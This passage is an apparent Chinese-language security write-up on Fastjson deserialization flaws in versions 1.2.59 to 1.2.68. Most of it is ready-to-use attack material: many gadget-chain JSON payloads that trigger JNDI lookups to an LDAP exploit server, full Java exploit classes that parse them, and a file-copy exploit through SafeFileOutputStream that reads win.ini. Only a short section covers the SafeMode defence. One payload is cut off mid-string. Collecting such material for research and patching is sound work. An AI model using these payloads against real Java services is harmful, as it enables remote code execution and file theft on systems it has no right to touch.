- com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig类需要ibatis-sqlmap和jta包；

### 漏洞原理

新Gadget绕过黑名单限制。

1.2.66涉及多条Gadget链，原理都是存在JDNI注入漏洞。

org.apache.shiro.realm.jndi.JndiRealmFactory类PoC：

```
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://localhost:1389/Exploit"], "Realms":[""]}
```

br.com.anteros.dbcp.AnterosDBCPConfig类PoC：

```
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://localhost:1389/Exploit"}或{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
```

com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig类PoC：

```
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTra
```

### EXP

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  
  
public class EXP_1266 {  
    public static void main(String[] args) {  
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String poc = "{\"@type\":\"org.apache.shiro.realm.jndi.JndiRealmFactory\", \"jndiNames\":[\"ldap://localhost:1234/ExportObject\"], \"Realms\":[\"\"]}";  
//        String poc = "{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}";  
//        String poc = "{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"healthCheckRegistry\":\"ldap://localhost:1389/Exploit\"}";  
//        String poc = "{\"@type\":\"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\"," +  
//                "\"properties\": {\"@type\":\"java.util.Properties\",\"UserTransaction\":\"ldap://localhost:1389/Exploit\"}}";  
 JSON.parse(poc);  
 }  
}
```

## 1.2.67反序列化漏洞（黑名单绕过）

### 前提条件

- 开启AutoType；
- Fastjson <= 1.2.67；
- JNDI注入利用所受的JDK版本限制；
- org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup类需要ignite-core、ignite-jta和jta依赖；
- org.apache.shiro.jndi.JndiObjectFactory类需要shiro-core和slf4j-api依赖；

### 漏洞原理

新Gadget绕过黑名单限制。

org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup类PoC：

```
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup", "jndiNames":["ldap://localhost:1389/Exploit"], "tm": {"$ref":"$.tm"}}
```

org.apache.shiro.jndi.JndiObjectFactory类PoC：

```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://localhost:1389/Exploit","instance":{"$ref":"$.instance"}}
```

EXP

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  
import com.sun.xml.internal.ws.api.ha.StickyFeature;  
  
public class EXP_1267 {  
    public static void main(String[] args) {  
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String poc = "{\"@type\":\"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup\"," +  
                " \"jndiNames\":[\"ldap://localhost:1234/ExportObject\"], \"tm\": {\"$ref\":\"$.tm\"}}";  
 JSON.parse(poc);  
 }  
}
```

## 1.2.68反序列化漏洞（expectClass绕过AutoType）

### 前提条件

- Fastjson <= 1.2.68；
- 利用类必须是expectClass类的子类或实现类，并且不在黑名单中；

#### 复制文件（任意文件读取漏洞）

利用类：**org.eclipse.core.internal.localstore.SafeFileOutputStream**

依赖：

```
<dependency>  
 <groupId>org.aspectj</groupId>  
 <artifactId>aspectjtools</artifactId>  
 <version>1.9.5</version>  
</dependency>
```

看下SafeFileOutputStream类的源码，其`SafeFileOutputStream(java.lang.String, java.lang.String)`构造函数判断了如果targetPath文件不存在且tempPath文件存在，就会把tempPath复制到targetPath中，正是利用其构造函数的这个特点来实现Web场景下的任意文件读取：

EXP

```
import com.alibaba.fastjson.JSON;

public class CopyAttack_1268{
	public static void main(String[] args){
		String poc = "{\"@type\":\"java.lang.AutoCloseable\",\"@type\":\"org.eclipse.core.internal.localstore.SafeFileOutputStream\",\"tempPath\":\"C:/Windows/win.ini\",\"targetPath\":\"E:/flag.txt\"}";
		JSON.parse(poc);
	}
}
```

---

#### 写入文件

有写入字符限制，不太能用上。

---

### SafeMode

在1.2.68之后的版本，在1.2.68版本中，fastjson增加了safeMode的支持。safeMode打开后，完全禁用autoType。所有的安全修复版本sec10也支持SafeMode配置。

代码中设置开启SafeMode如下：

```
ParserConfig.getGlobalInstance().setSafeMode(true);
```

开启之后，就完全禁用AutoType即`@type`了，这样就能防御住Fastjson反序列化漏洞了。

具体的处理逻辑，是放在`checkAutoType()`函数中的前面，获取是否设置了SafeMode，如果是则直接抛出异常终止运行：


## 其他一些绕过黑名单的Gadget

### 1.2.59

com.zaxxer.hikari.HikariConfig类PoC：

```
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1389/Exploit"}或{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
```

### 1.2.61

org.apache.commons.proxy.provider.remoting.SessionBeanProvider类PoC：

```
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://localhost:1389/Exploit","Object":"a"}
```

### 1.2.62

org.apache.cocoon.components.slide.impl.JMSContentInterceptor类PoC：

```
{"@type":"org.apache.cocoon.components.slide.impl.JMSContentInterceptor", "parameters": {"@type":"java.util.Hashtable","java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory","topic-factory":"ldap://localhost:1389/Exploit"}, "namespace":""}
```

### 1.2.68

org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig类PoC：

```
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1389/Exploit"}或{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
```

com.caucho.config.types.ResourceRef类PoC：

```
{"@type":"com.caucho.config.types.ResourceRef","lookupName": "ldap://localhost:1389/Exploit", "value": {"$ref":"$.value"}}
```

### 未知版本

org.apache.aries.transaction.jms.RecoverablePooledConnectionFactory类PoC：

```
{"@type":"org.apache.aries.transaction.jms.RecoverablePooledConnectionFactory", "tmJndiName": "ldap://localhost:1389/Exploit", "tmFromJndi": true, "transactionManager": {"$ref":"$.transactionManager"}}
```

org.apache.aries.transaction.jms.internal.XaPooledConnectionFactory类PoC：

```
{"@type":"org.apache.aries.transaction.jms.internal.XaPooledConnectionFactory", "tmJndiName": "ldap://localhost:1389/Exploit", "tmFromJndi": true, "transactionManager": {"$ref":"$.transactionManager"}}
```


